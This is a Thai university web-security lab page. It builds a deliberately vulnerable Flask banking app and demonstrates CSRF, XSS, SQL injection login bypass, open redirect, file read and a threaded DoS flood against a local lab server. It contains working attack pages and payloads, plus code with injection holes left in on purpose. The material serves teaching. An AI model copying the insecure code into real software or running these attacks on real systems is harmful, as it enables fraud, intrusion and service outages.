

import { Image } from 'astro:assets';
import {
  Steps,
  Card,
  Tabs,
  TabItem,
  LinkButton,
  FileTree
} from "@astrojs/starlight/components";

<LinkButton href={"/int4101/print/lab3"} icon="seti:pdf" target={"_blank"}>
  Print
</LinkButton>

## Download Ubuntu

<Steps>
  1. Download Ubuntu 24.04.1 LTS :
  [https://ubuntu.com/download/desktop/thank-you?version=24.04.1\&architecture=amd64\&lts=true](https://ubuntu.com/download/desktop/thank-you?version=24.04.1&architecture=amd64&lts=true)
  2. ตรวจสอบค่า sum ของ ISO File ใน Powershell:
</Steps>

```ps title="Powershell - Check SUM SHA256" wrap
Get-FileHash C:\Users\xxxx\Downloads\ubuntu-24.04.1-desktop-amd64.iso -Algorithm SHA256 | Format-List
```

:::caution[ค่า sum ควรมีค่าเท่ากับ]
**C2E6F4DC37AC944E2ED507F87C6188DD4D3179BF4A3F9E110D3C88D1F3294BDC**
:::

## Install Ubuntu
<Steps>

  3. ติดตั้ง Ubuntu 24.04.1 LTS บท VirtualBox  
  4. ตรง Name ใส่ Ubuntu 24.04.1  
  5. ตรง Folder ก็ตามค่าเริ่มต้นไป 
  6. ตรง ISO Image กดปุ่ม Other  
  7. หาไฟล์ ISO ที่ Download มา  
  8. แล้วกด Open 
  9. ติ๊กถูก Skip Unattended Installation 
  10. ตรง Hardware เปลี่ยน Base memory เป็น 4096 mb 
      :::danger[ระวัง]
      minimum requirements ของ Ubuntu 24.04.1 คือ 4GB ถ้าตั้งน้อยกว่านั้นตอนติดตั้งจะค้างได้
      :::
  11. กดปุ่ม Finish แล้ว Virtual Box จะรันหน้าต่างขึ้นมา
  12. กด Enter เลือก \*Try or Install Ubuntu  
  13. จะโหลด Ubuntu ขึ้นมาดังรูป  
  14. ระบบจะติดตั้ง Ubuntu กด Next  
  15. กด Next  
  16. กด Next  
  17. กด Next  
  18. กด Next  
  19. กด Next  
  20. กด Next  
  21. กด Next  
  22. ตรง Your name ใสชื่อตัวเรา และตรง Password ให้ตั้งค่าตามที่เราต้องการ แล้วกด Next  
  23. กด Next  
  24. กด Install  
  25. ระบบจะติดตั้ง Ubuntu  
  26. ระบบจะให้เรา Reboot
  27. Login เข้ามาจะเจอหน้า Welcome ให้กด Next ไปเรื่อยๆ 
  28. ให้กด Next 
  29. ให้กด Next 
  30. ให้กด Finish 
  31. กด Shutdown VM ออกมาก่อนแล้วไปที่ Settings 
  32. อย่าลืมเปลี่ยน Network ให้เป็น Bridge Mode 
</Steps>

## Install VSCode

<Steps>
1. ไปที่ [VSCode Website](https://code.visualstudio.com)
2. กด Download VSCode เลือก .deb 
3. รอโหลด VSCode 
4. Open File และ Install 
5. Open VSCode 
6. Install VSCode Extension 
</Steps>

## Install Curl
<Card title='Install Curl'>

```bash
sudo apt install curl
```
หลังจากนั้นกด <kbd> y </kbd> + <kbd>Enter</kbd>

</Card>
## Install Python
จะทำการติดตั้งเครื่องมือต่างๆ ดังนี้
<Steps>
1. Python3
2. Scapy
3. VENV
</Steps>
### Install python3
<Card title='Install Python3'>
```bash
sudo apt install python3
```
หลังจากนั้นกด <kbd> y </kbd> + <kbd>Enter</kbd>

</Card>
### Install python3-scapy
<Card title='Install Scapy'>

```bash
sudo apt install python3-scapy
```

หลังจากนั้นกด <kbd> y </kbd> + <kbd>Enter</kbd>


หลังจากนั้นพิมพ์ <kbd>scapy</kbd> + <kbd>Enter</kbd> เพื่อดูว่าได้ติดตั้งแล้ว

```bash
scapy
```


</Card>
### Install python3-venv
<Card title='Install VENV'>

```bash
sudo apt install python3-venv
```

หลังจากนั้นกด <kbd> y </kbd> + <kbd>Enter</kbd>


</Card>


## Basic Web Security


### Install Flask

<Card title='Install Flask'>

ลำดับโครงสร้าง Folder สำหรับ Flask

<FileTree>
- labs
    - .venv/ เก็บ module ที่ติดตั้ง
    - lab3
        - backend/ เก็บ web server
            - templates/ เก็บ html template
                - base.html
                - index.html
                - login.html
                - accounts.html
            - static เก็บ static file
                - css/
                - js/
            - hackers
                - index.html สร้างหน้าหลอก สำหรับโจมตี CSRF
            - main.py
            - cert.pem สร้างจาก openssl
            - key.pem สร้างจาก openssl
            - db.sqlite ไฟล์ฐานข้อมูล

</FileTree>


<Steps>

1. สร้าง virtual environment เพื่อ install Flask โดยใช้ venv

    ```bash
        python3 -m venv .venv
    ```

2. จะได้ โฟลเดอร์ .venv ขึ้นมา ซึ่งจะถูกซ่อนอยู่

    :::tip

        โฟลเดอร์ที่มี `.` นำจะซ่อนอยู่ ต้องใช้คำสั่ง

        ```bash
            ls -al
        ```
        จึงจะเห็น
    :::

3. ทำการ activate virutal environment
    ```bash
    source .venv/bin/activate
    ```

4. Install Flask

    ```bash
    pip install flask
    ```

5. เมื่อติดตั้ง Flask เสร็จแล้ว ให้เราสร้างไฟล์ `main.py`

    ```py wrap
    from flask import Flask, render_template, request, Response, redirect, url_for, g
    from flask_login import (
        LoginManager,
        UserMixin,
        current_user,
        login_required,
        login_user,
        logout_user,
    )
    import sqlite3

    app = Flask(__name__, static_url_path='', static_folder='static', template_folder='templates')
    app.config.update(SECRET_KEY="secret_sauce")


    DATABASE = 'db.sqlite'

    def get_db():
        db = getattr(g, '_database', None)
        if db is None:
            db = g._database = sqlite3.connect(DATABASE)
            db.row_factory = sqlite3.Row
        return db

    @app.teardown_appcontext
    def close_connection(exception):
        db = getattr(g, '_database', None)
        if db is not None:
            db.close()

    login_manager = LoginManager()
    login_manager.init_app(app)


    # database
    users = [
    ]

    transactions = [
    ]

    def authen(username, password):
        c = get_db().cursor()
        sql = "SELECT * FROM users WHERE username = '"+username+"' AND password = '"+password+"'" 
        c.execute(sql)
        return c.fetchone()

    def get_users():
        c = get_db().cursor()
        c.execute('SELECT * FROM users')
        return c.fetchall()

    def update_user_balance(id, balance):
        c = get_db()
        c.execute("UPDATE users SET balance = %s WHERE id = %s" % (balance, id))
        c.commit()

    class User(UserMixin):
        ...


    def get_user(user_id: int):
        users = get_users()
        for user in users:
            try:
                if int(user["id"]) == int(user_id):
                    return user
            except:
                return None
        return None


    @login_manager.user_loader
    def user_loader(id: int):
        user = get_user(id)
        if user:
            user_model = User()
            user_model.id = user["id"]
            return user_model
        return None


    @app.errorhandler(401)
    def unauthorized(error):
        return Response("Not authorized"), 401


    @app.route("/")
    def index():
        return render_template('index.html')

    def valid_login(username, password):
        isValid = username != '' and password != ''
        return isValid

    @app.route("/reset_balance")
    @login_required
    def reset_balance():
        update_user_balance(1, 2000)
        update_user_balance(2, 0)
        current_user.balance = 2000
        return redirect(url_for("accounts"))

    @app.route("/accounts", methods=["GET", "POST"])
    @login_required
    def accounts():
        user = get_user(current_user.id)
        if request.method == "POST":
            try:
                account = int(request.form.get("account"))
                amount = int(request.form.get("amount"))
            except:
                account = request.form.get("account")
                amount = request.form.get("amount")

            transfer_to = get_user(account)

            if isinstance(amount, int) and amount <= int(user["balance"]) and transfer_to and user:
                amount_left = int(user["balance"])
                amount_left -= amount
                # user["balance"] = amount
                update_user_balance(user["id"], amount_left)
                transfer_amount_left = int(transfer_to["balance"])
                transfer_amount_left += amount
                # transfer_to["balance"] = transfer_amount_left
                update_user_balance(transfer_to["id"], transfer_amount_left)
                user = get_user(current_user.id)

            transactions.append({'id':len(transactions),'amount':amount})


        return render_template(
            "accounts.html",
            balance=user["balance"],
            username=user["username"],
            transactions=transactions
        )


    @app.route('/login', methods=['POST', 'GET'])
    def login():
        error = None
        if request.method == "POST":
            username = request.form.get("username")
            password = request.form.get("password")

            user = authen(username, password)

            if user is None:
                error = 'Invalid username/password'
                return render_template("login.html", error=error)
            else:
                user_model = User()
                user_model.id = user["id"]
                login_user(user_model)
                return redirect(url_for("accounts"))


        if current_user.is_authenticated:
            return redirect(url_for("accounts"))

        return render_template("login.html")

    @app.route("/logout")
    @login_required
    def logout():
        logout_user()
        return redirect(url_for("index"))


    if __name__ == '__main__':
        app.run(host='0.0.0.0',debug=True,port=5000)
    ```

6. สร้างไฟล์ `base.html` ในโฟลเดอร์ `templates`

    ```html wrap
    // base.html
    <!DOCTYPE html>
    <html lang="en">

    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Example Website</title>
        <link href="https://cdn.jsdelivr.net/npm/daisyui@4.12.23/dist/full.min.css" rel="stylesheet" type="text/css" />
        <script src="https://cdn.tailwindcss.com"></script>
    </head>

    <body>
        
    </body>

    </html>

    ```

7. สร้างไฟล์ `index.html` 

    ```html wrap
    
    
        <!-- Hero -->
        <div class="relative overflow-hidden">
            <!-- Gradients -->
            <div aria-hidden="true" class="flex absolute -top-96 start-1/2 transform -translate-x-1/2">
                <div
                    class="bg-gradient-to-r from-violet-300/50 to-purple-100 blur-3xl w-[25rem] h-[44rem] rotate-[-60deg] transform -translate-x-[10rem] dark:from-violet-900/50 dark:to-purple-900">
                </div>
                <div
                    class="bg-gradient-to-tl from-blue-50 via-blue-100 to-blue-50 blur-3xl w-[90rem] h-[50rem] rounded-fulls origin-top-left -rotate-12 -translate-x-[15rem] dark:from-indigo-900/70 dark:via-indigo-900/70 dark:to-blue-900/70">
                </div>
            </div>
            <!-- End Gradients -->

            <div class="relative z-10">
                <div class="max-w-[85rem] mx-auto px-4 sm:px-6 lg:px-8 py-10 lg:py-16">
                    <div class="max-w-2xl text-center mx-auto">

                        <!-- Title -->
                        <div class="mt-5 max-w-2xl">
                            <h1
                                class="block font-semibold text-gray-800 text-4xl md:text-5xl lg:text-6xl dark:text-neutral-200">
                                An Exmaple Flask Web App
                            </h1>
                        </div>
                        <!-- End Title -->

                        <div class="mt-5 max-w-3xl">
                            <p class="text-lg text-gray-600 dark:text-neutral-400">A list of pages are below</p>
                        </div>

                    </div>
                </div>
            </div>
        </div>
        <!-- End Hero -->

        <div class="container mx-auto px-4 py-2">

            <div class="text-4xl">An example</div>

            <!-- Card Section -->
            <div class="max-w-[85rem] px-4 py-10 sm:px-6 lg:px-8 lg:py-14 mx-auto">
                <!-- Grid -->
                <div class="grid sm:grid-cols-2 md:grid-cols-3 xl:grid-cols-4 gap-3 sm:gap-6">
                    <!-- Card -->
                    <a class="group flex flex-col bg-white border shadow-sm rounded-xl hover:shadow-md focus:outline-none focus:shadow-md transition dark:bg-neutral-900 dark:border-neutral-800"
                        href="/login">
                        <div class="p-4 md:p-5">
                            <div class="flex justify-between items-center gap-x-3">
                                <div class="grow">
                                    <h3
                                        class="group-hover:text-blue-600 font-semibold text-gray-800 dark:group-hover:text-neutral-400 dark:text-neutral-200">
                                        Login
                                    </h3>
                                    <p class="text-sm text-gray-500 dark:text-neutral-500">
                                        A login page
                                    </p>
                                </div>
                                <div>
                                    <svg class="shrink-0 size-5 text-gray-800 dark:text-neutral-200"
                                        xmlns="http://www.w3.org/2000/svg" width="24" height="24" viewBox="0 0 24 24"
                                        fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round"
                                        stroke-linejoin="round">
                                        <path d="m9 18 6-6-6-6" />
                                    </svg>
                                </div>
                            </div>
                        </div>
                    </a>
                    <!-- End Card -->

                </div>
                <!-- End Grid -->
            </div>
            <!-- End Card Section -->
        </div>
    
    ```

8. สร้างไฟล์ `login.html`

    ```html wrap
    // login.html
    

    
    <div class="container mx-auto w-96">

        <div class="mt-7 bg-white border border-gray-200 rounded-xl shadow-sm dark:bg-neutral-900 dark:border-neutral-700">
            <div class="p-4 sm:p-7">
                <div class="text-center">
                    <h1 class="block text-2xl font-bold text-gray-800 dark:text-white">Sign in</h1>
                </div>

                <div class="mt-5">


                    <!-- Form -->
                    <form method="post" action="/login">
                        <div class="grid gap-y-4">
                            <!-- Form Group -->
                            <div>
                                <label for="username" class="block text-sm mb-2 dark:text-white">Usesrname</label>
                                <div class="relative">
                                    <input type="text" id="username" name="username"
                                        class="py-3 px-4 block w-full border border-gray-200 rounded-lg text-sm focus:border-blue-500 focus:ring-blue-500 disabled:opacity-50 disabled:pointer-events-none dark:bg-neutral-900 dark:border-neutral-700 dark:text-neutral-400 dark:placeholder-neutral-500 dark:focus:ring-neutral-600"
                                        required aria-describedby="email-error">
                                    <div class="hidden absolute inset-y-0 end-0 pointer-events-none pe-3">
                                        <svg class="size-5 text-red-500" width="16" height="16" fill="currentColor"
                                            viewBox="0 0 16 16" aria-hidden="true">
                                            <path
                                                d="M16 8A8 8 0 1 1 0 8a8 8 0 0 1 16 0zM8 4a.905.905 0 0 0-.9.995l.35 3.507a.552.552 0 0 0 1.1 0l.35-3.507A.905.905 0 0 0 8 4zm.002 6a1 1 0 1 0 0 2 1 1 0 0 0 0-2z" />
                                        </svg>
                                    </div>
                                </div>
                                <p class="hidden text-xs text-red-600 mt-2" id="email-error">Please include a valid email
                                    address so we can get back to you</p>
                            </div>
                            <!-- End Form Group -->

                            <!-- Form Group -->
                            <div>
                                <div class="flex justify-between items-center">
                                    <label for="password" class="block text-sm mb-2 dark:text-white">Password</label>
                                </div>
                                <div class="relative">
                                    <input type="password" id="password" name="password"
                                        class="py-3 px-4 block w-full border border-gray-200 rounded-lg text-sm focus:border-blue-500 focus:ring-blue-500 disabled:opacity-50 disabled:pointer-events-none dark:bg-neutral-900 dark:border-neutral-700 dark:text-neutral-400 dark:placeholder-neutral-500 dark:focus:ring-neutral-600"
                                        required aria-describedby="password-error">
                                    <div class="hidden absolute inset-y-0 end-0 pointer-events-none pe-3">
                                        <svg class="size-5 text-red-500" width="16" height="16" fill="currentColor"
                                            viewBox="0 0 16 16" aria-hidden="true">
                                            <path
                                                d="M16 8A8 8 0 1 1 0 8a8 8 0 0 1 16 0zM8 4a.905.905 0 0 0-.9.995l.35 3.507a.552.552 0 0 0 1.1 0l.35-3.507A.905.905 0 0 0 8 4zm.002 6a1 1 0 1 0 0 2 1 1 0 0 0 0-2z" />
                                        </svg>
                                    </div>
                                </div>
                                <p class="hidden text-xs text-red-600 mt-2" id="password-error">8+ characters required</p>
                            </div>
                            <!-- End Form Group -->

                            <button type="submit"
                                class="w-full py-3 px-4 inline-flex justify-center items-center gap-x-2 text-sm font-medium rounded-lg border border-transparent bg-blue-600 text-white hover:bg-blue-700 focus:outline-none focus:bg-blue-700 disabled:opacity-50 disabled:pointer-events-none">Sign
                                in</button>

                            <div class="text-red-500">{{error}}</div>
                        </div>
                    </form>
                    <!-- End Form -->
                </div>
            </div>
        </div>
    </div>
    
    ```

9. สร้างไฟล์ `accounts.html`

    ```html wrap
    

    
    
    <div class="container mx-auto">

        <div class="flex w-full justify-between items-center h-16 bg-black text-white px-4">
            <div class="flex gap-4 items-center">
                <div class="text-2xl uppercase">Central bank account of</div>
                <div class="text-xl italic text-amber-300">{{username}}</div>
            </div>
            <a class="uppercase hover:text-amber-300" href="/logout">logout</a>
        </div>
        <p class="text-2xl my-2">Balance: ${{balance}}</p>
        <form class="px-4 py-2 my-2 border rounded-md max-w-fit" action="/accounts" method="POST" autocomplete="off">
            <p class="my-2">Transfer Money</p>
            <input class="border px-2 py-3" type="text" name="account" placeholder="accountid">
            <input class="border px-2 py-3" type="text" name="amount" placeholder="amount">
            <input class="border rounded-md px-4 py-3 bg-amber-300 text-black font-bold uppercase" type="submit"
                value="Send">
        </form>
        <p class="text-2xl">All transactions:</p>
        <table class="table">
            <thead>
                <tr>
                    <th>ID</th>
                    <th>AMOUNT</th>
                </tr>
            </thead>
            <tbody>
                
                <tr>
                    <td>{{ transaction.id }}</td>
                    <td title={{transaction.amount}}>{{ transaction.amount }}</td>
                </tr>
                
            </tbody>
        </table>
    </div>
    
    
    ```

10. สร้างโฟลเดอร์ `hackers` และสร้างไฟล์ `index.html`

    ```html wrap
    <form hidden id="hack" target="csrf-frame" action="http://192.168.96.155:5000/accounts" method="POST" autocomplete="off">
    <input type="number" name="amount" value="2000">
    <input type="number" name="account" value="2">
    </form>
    <iframe hidden name="csrf-frame"></iframe>

    <h3>You won $100,000</h3>
    <button onClick="hack();" id="button">Click to claim</button>
    <br>
    <div id="warning"></div>

    <script>
        function hack() {
            document.getElementById("hack").submit();
            document.getElementById("warning").innerHTML="check your bank balance! :)";
        }
    </script>
    ```

11. โครงสร้างฐานข้อมูล

    ```sql
    BEGIN TRANSACTION;
    CREATE TABLE IF NOT EXISTS "users" (
    	"id"	INTEGER,
    	"username"	TEXT,
    	"password"	TEXT,
    	"balance"	NUMERIC,
    	PRIMARY KEY("id" AUTOINCREMENT)
    );
    INSERT INTO "users" VALUES (1,'test','test',2000);
    INSERT INTO "users" VALUES (2,'hacker','hacker',0);
    COMMIT;

    ```

12. ทำการทดสอบรัน Flask ขึ้นมา 

    ```bash
    flask --app main run --host 0.0.0.0 --debug
    ```

    ซึ่งผลลัพธ์จะขึ้นดังนี้

    ```bash wrap
    * Serving Flask app 'main'
    * Debug mode: on
      WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
    * Running on all addresses (0.0.0.0)
    * Running on http://127.0.0.1:5000
    * Running on http://192.168.96.155:5000
      Press CTRL+C to quit
    * Restarting with stat
    * Debugger is active!
    * Debugger PIN: 780-509-382
    ```
</Steps>


</Card>

รูปแบบการโจมตีใน Website ค่อนข้างมีมากมาย แต่ในที่นี้จะยกตัวอย่างการโจมตี เป็น CSRF, XSS และ SQL Injection

### CSRF Attack

<Card title='Example 1'>

ในตัวอย่างนี้จะยกตัวอย่าง Website ที่มีการรับส่งค่าจาก Form ไปยัง Server โดยใช้ POST ถึงแม้ว่า Server จะเช็คว่ามีการ Login แล้วก็ตาม แต่ก็ไม่สามารถเช็คค่าจาก Form ที่ส่งผ่าน POST จากหน้าของ Hacker ได้

:::tip
ทำการรัน virutal environment ก่อน

```bash
source .venv/bin/activate
```
:::

ติดตั้ง Flask-Login
```bash
pip install flask-login
```


:::danger
อย่าลืมเปลี่ยน IP เป็น IP ของ Ubuntu ที่รัน Webserver อยู่
:::

```html del="192.168.96.155" wrap
<form hidden id="hack" target="csrf-frame" action="http://192.168.96.155:5000/accounts" method="POST" autocomplete="off">
    <input type="number" name="amount" value="2000">
    <input type="number" name="account" value="2">
</form>
<iframe hidden name="csrf-frame"></iframe>

<h3>You won $100,000</h3>
<button onClick="hack();" id="button">Click to claim</button>
<br>
<div id="warning"></div>

<script>
    function hack() {
        document.getElementById("hack").submit();
        document.getElementById("warning").innerHTML="check your bank balance! :)";
    }
</script>
```

**OUTPUT**
<Steps>
1. รัน Flask
    ```bash
    flask --app main run --host 0.0.0.0 --debug
    ```
2. Login `username` คือ `test` และ `password` คือ `test`


3. เปิดหน้า Website ตัวอย่างขึ้นมาแสดงให้เห็นว่าเรามีเงินอยู่ $2000


4. รัน Hackers Click Bait
    ```bash
    python3 -m http.server -b 0.0.0.0 5002
    ```
5. Hacker ทำหน้าหลอกขึ้นมาให้เรากดปุ่ม พอกดปุ่มก็ขึ้นบอกว่าให้เราเช็ค balance


6. ถ้า Refresh หน้า Website จะเห็นได้ว่า เงินจะเหลือ $0

</Steps>
</Card>

### XSS Attack

<Card title='Example 1'>


ถ้าปิดตัว autoescape ไป

```jinja

```

หรือมีการอนุญาติให้แสดง tag html ออกมาได้

```jinja
{{ comment | safe }}
```

ใช้ tag script ใส่เข้าไปก็จะมีปัญหาตามรูปด้านล่างได้


**OUTPUT**

1. ป้อน code ลงไป
```html
tooltip onmouseover=alert(1)
```

เมื่อเอาเม้าส์ไปวาง

2. หรือ ใส่ tag ลงไป
```html
<script>alert('javascript was executed')</script>
```

ก็จะทำงานตอนโหลดหน้าใหม่ด้วยการ show alert

</Card>

### SQL Injection Attack

<Card title='Example 1'>

ใส่ SQL ลงไปในช่อง Username

```sql
' OR 'a'='a';--
```

ซึ่ง SQL จริงๆ จะเป็นดังนี้

```sql
SELECT * FROM users WHERE username = '' OR 'a'='a';-- AND password = '';
```


เมื่อคลิก Sign in ไป ก็จะสามารถ bypass login ได้ดังรูปด้านล่าง


:::danger
สาเหตุเพราะการใช้ concatenation string กับ SQL

```python
def authen(username, password):
    c = get_db().cursor()
    sql = "SELECT * FROM users WHERE username = '"+username+"' AND password = '"+password+"'" 
    c.execute(sql)
    return c.fetchone()
```

:::

</Card>

### Redirect Attack

<Card title='Example 1'>
ในกรณีที่ Website มีการส่งค่าผ่านทาง Request Parameter และในบางกรณีต้อง Redirect ไปอีก URL นึง ถ้าไม่มีการกรอง Request Parameter ที่ส่งเข้ามาก็อาจจะโดนโจมตีได้ โดย Hacker อาจจะทำการหลอก User ให้ไปกรอกข้อมูลจากเวบไซต์ของ Hacker เอง

```python ins={1-5}
@app.route("/verify")
def verify_email():
    email = request.args.get('email')
    return redirect(email)
```

ซึ่งในกรณีนี้ถ้าไม่ได้มีการกรองอะไรเลยแล้ว Redirect ทันที `http://192.168.96.155:5000/verify?email=http://www.google.com` ไปยัง `www.google.com` 

</Card>

### SSRF Attack

<Card title='Example 1'>
ถ้าเขียนโปรแกรมไม่ระวัง อย่างเช่น ต้องการให้คน Download file ออกมาได้โดยตรง เช่น `http://192.168.96.155:5000/download/main.py`

```python ins={1-4}
@app.route("/download/<path:filename>")
def download_file(filename):
    f = open(filename, "r")
    return Response(f.read(), mimetype='text/plain')
```

**OUTPUT**

ผลลัพธ์ที่ได้ก็จะกลายเป็นแบบนี้



</Card>

### DOS Attack

<Card title='Example 1'>

:::danger
โปรแกรมนี้เพื่อการศึกษาเท่านั้น ไม่เหมาะไปทำกับเครือข่ายอื่นๆ
:::

ใช้ Thread ยิงไปที่ IP 192.168.96.155:5000 นั่นก็คือ WebServer ที่เราทำเอาไว้

```python wrap
import threading
import socket

target = '192.168.96.155'
port = 5000
fake_ip = '182.21.20.32'

def attack():
    while True:
        s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect((target, port))
        s.sendto(('GET / HTTP/1.1\r\nHost: '+target+':'+str(port)).encode('ascii'),(target, port))
        s.sendto(("Host: "+fake_ip+"\r\n\r\n").encode('ascii'),(target, port))
        s.close()

for i in range(500):
    thread = threading.Thread(target=attack)
    thread.start()

```

**OUTPUT**

ผลกระทบจากการโดน DOS ก็คือ CPU ขึ้น 100% เครื่อง Server จะทำงานอื่นไม่ได้เลยนี่คือข้อเสีย


</Card>

### Install SSL Certificate

<Card title='Example 1'>

ในกรณีที่ใช้ http ธรรมดา จะไม่มีการเข้ารหัสข้อมูลที่รับส่งกัน ทำให้เกิดการ Sniff ได้ ดังนั้นวิธีแก้อย่างแรกคือการใช้งาน https
โดยสร้าง Certificate ขึ้นมาด้วย OpenSSL 

```bash wrap
openssl req -x509 -newkey rsa:4096 -nodes -out cert.pem -keyout key.pem -days 365
```

โปรแกรมจะถาม ให้เราป้อนตามรูปข้างล่าง


:::danger
การสร้าง Certificate รูปแบบนี้เค้าเรียกว่า Self Signed Certificate ซึ่งจะให้สำหรับพัฒนาภายในเครื่องเท่านั้น ไม่สามารถใช้งานจริงได้ เพราะยังไม่ถือว่าปลอดภัย
:::

แก้ไขตรงไฟล์ main.py

```python
// main.py
app.run(host='0.0.0.0',debug=True, ssl_context=('cert.pem', 'key.pem'),port=5000)
```

หลังจากนั้นเวลาเราเปิด Browser ขึ้นมา Browser จะยังคงแจ้งเตือนว่า Website นี้ไม่ปลอดภัย เนื่องจาก certificate ที่ใช้ถูกสร้างขึ้นมาเพื่อใช้ในการพัฒนา


จะต้องทำการกด `Advanced` และกด `Continue to` ตามรูปด้านล่าง


ก็จะเข้าหน้า Website ได้แต่จะแจ้งเตือนว่า Website ไม่ปลอดภัย


</Card>

